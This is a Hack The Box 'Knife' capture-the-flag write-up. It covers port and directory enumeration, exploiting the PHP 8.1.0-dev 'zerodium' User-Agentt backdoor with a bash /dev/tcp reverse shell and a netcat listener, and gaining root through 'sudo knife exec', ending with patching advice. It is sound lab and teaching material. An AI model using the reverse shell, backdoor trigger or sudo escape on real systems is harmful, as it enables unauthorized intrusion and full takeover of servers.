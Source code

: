 ```yaml
---
title:  Hack The Box - Knife writeup
date: 2021-08-30 16:09:00 +0200
categories: [ Hack The Box, Machines ] 
tags: [common-vulnerability, php] 
dirImg: /assets/img/HackTheBox/Knife
  src: /assets/img/HackTheBox/Knife/icon.webp
  alt: Knife image
toc: false  
---
```



In this post we explore the Knife machine hosted on the HackTheBox website. We first scan the machine to enumerate the open ports and the respective running services.

### Analyze and Discovery

We start with an `nmap` enumeration. The `-sC` flag enables the usage of the default nmap scripts and the `-sV` flag enables the service and version discovery.

```
> nmap -sC -sV -oN nmap-initial 10.10.10.242

Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-05 09:49 CEST
Nmap scan report for 10.10.10.242
Host is up (0.024s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.26 seconds
```

Two ports results to be open: port 22 for the ssh service and 80 which hosts an Apache web service.

Visiting the webserver we land on the following page:

>![]({{ page.dirImg }}/homepage.png){: .shadow}


The attack surface is very small as there aren't any input fields nor clickable links. The tabs on the top right of the page are not actually implemented.  

We can easily figure out that the website's backend language is PHP by noticing that the landing page is called `index.php`. This information may be useful in the future to tailor our enumeration/attacks.

We can gather further information on the resources hosted on the webserver by enumerating files or directories served on port 80. For this purpose, we can use `gobuster` and perform a dictionary-based brute force enumeration. 
As we know that the web server is written in php, it may contain files ending with `.php`. It may be useful to tell `gobuster` to also append the `.php` extension to the dictionary entries. The `-x` flag enables such feature.
The full `gobuster` command is 
```
gobuster dir -u http://10.10.10.242 -w SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php -t 50 -o gobuster-port80.txt
```

However the directory enumeration didn't return any valuable results. 

We can still examine the requests and responses generated when visiting the `index.php` page and see whether we can spot any anomalies. 

We open the Firefox developer tools and navigate to the `Network` tab. Here we can see the request sent by the browser to the server to request the `index.php` page and its respective response.

>![]({{ page.dirImg }}/20210605-095915.png){: .shadow}

The `X-Powered-By` HTTP response header leaks the `PHP` version in use

>![]({{ page.dirImg }}/20210605-100046.png){: .shadow}


Now that we know the specific version of php used, namely `php 8.1.0-dev`, we can google for known vulnerabilities.  
Our search produced a very interesting result:

>![]({{ page.dirImg }}/20210605-100432.png){: .shadow}

It confirms that the current version is vulnerable and contains a backdoor that may cause remote code execution. What we need to do is finding this backdoor and exploit it.   

### Insight into the `PHP` backdoor

In exploitDB we can find the reference to the malicious commit that introduced the backdoor in the PHP code base. ([ExploitDB](https://www.exploit-db.com/exploits/49933)).

The backdoor is contained in the following code snippet:

>![]({{ page.dirImg }}/20210605-101856.png){: .shadow}

As we can easily spot, the content of the `HTTP_USER_AGENTT` is scanned for the `zerodium` string. If the string is found, then the content after the first 8 bytes is evaluated.

So, if we build our `HTTP_USER_AGENTT` such that it starts with `zerodium` (8 bytes) than we will be able to execute the remaining bytes.

### Attacking and Tinkering

We know that the payload after the `zerodium` string will be executed in the server. Therefore we can embed a reverse shell to gain a shell in the remote machine.  
The server machine is running Ubuntu (as we can see from the `nmap` output), so we can use a simple tcp reverse shell that starts a connection to our local machine: `bash -i >& /dev/tcp/10.10.14.19/9001 0>&1`.  
(10.10.14.19 is the ip address of our local machine in the HTB network).


Indeed, we need to setup a tcp listener in our local machine to listen on port 9001 for the incoming connection. It can be done using netcat: `nc -lnvp 9001`.

The listener is ready, we can now trigger the backdoor.  
We embed our reverse shell into the `User-Agentt` header using BurpSuite.

>![]({{ page.dirImg }}/20210605-102948.png){: .shadow}

And we get the callback

>![]({{ page.dirImg }}/20210605-102850.png){: .shadow}


> An alternative to BurpSuite is the `curl` linux command. However, it would not be a very pleasant experience as one needs to pay close attention on escaping quotes.

We now have a shell as the **james** user. We can get the user flag by printing the `/home/james/user.txt` file.

#### Privilege Escalation

We can scan the machine for possible privilege escalation vectors.  

Before using any Linux enumeration scripts, we can try to see which commands the user **james** can execute as another user. It can be done using the `sudo -l` command.

>![]({{ page.dirImg }}/20210605-103224.png){: .shadow}

As we can see from the command's output, we can execute the `knife` binary as root without the need to provide a password. 

But what is knife?

>![]({{ page.dirImg }}/20210605-112124.png){: .shadow}

(More information on [Chef Documentation website](https://docs.chef.io/workstation/knife/) ) 

The documentation is indeed a useful resource to look at. It may be possible to find exploit vectors. 

As expected, going through the documentation highlighted an exploitable feature of the `knife` binary. It looks like we can execute arbitrary Ruby code:

>![]({{ page.dirImg }}/20210605-105525.png){: .shadow}

Therefore we run the binary as **root** and spawn a shell using Ruby code.

```bash
james@knife:/$ sudo knife exec -E 'exec "/bin/bash"'
sudo knife exec -E 'exec "/bin/bash"'
$ whoami
root
```

We managed to get **root**, flag is in `/root/root.txt`

### Reflection on the security

In this section we highlight the security weaknesses that allowed us to get full control over the remote server. Moreover, we propose solutions to mitigate and patch such vulnerabilities

#### Security weaknesses and recommendations

- We managed to get a foothold in the target machine by exploiting an outdated version of PHP which contained a known backdoor. The vulnerability is extremely easy to exploit and allows an unauthenticated attacker to remotely gain access to the server's OS. Given the high impact and easiness of exploitation, the vulnerability can be classified as high risk and should be immediately patched.   
We advice to always keep the software up to date. Publicly facing web servers should have high priority and be updated daily as they are the first point of entry to the machine.

- The `X-Powered-By` leaks the PHP version in use, thus easily giving out extra information to the attacker. Such header should be immediately suppressed. Without the info about the PHP version the attacker would have had a harder time breaking into the machine. However security by obscurity is never a good solution and the problem should be fixed at the root (keep the software up to date).

- We managed to escalate our privileges by exploiting an over permissive rule in the `sudoers` file. Such rule allowed the `james` user to execute the `knife` binary as root without the need of a password. Such configuration together with the large variety of features exposed by the binary, easily allow an attacker to gain full control over the machine.
It is still unclear why the `sudoers` file contained such entry but it is definitely an over permissive rule which does not follow the minimality principle.  
It's highly likely that the system administrator lazily set up the `knife` sudo permissions without taking security into account.  
In case the **james** user is required to execute part of the `knife` features, we advice to configure the `sudoers` file in a more granular way, giving the users access to the required features only, and only after an accurate analysis of such features.  


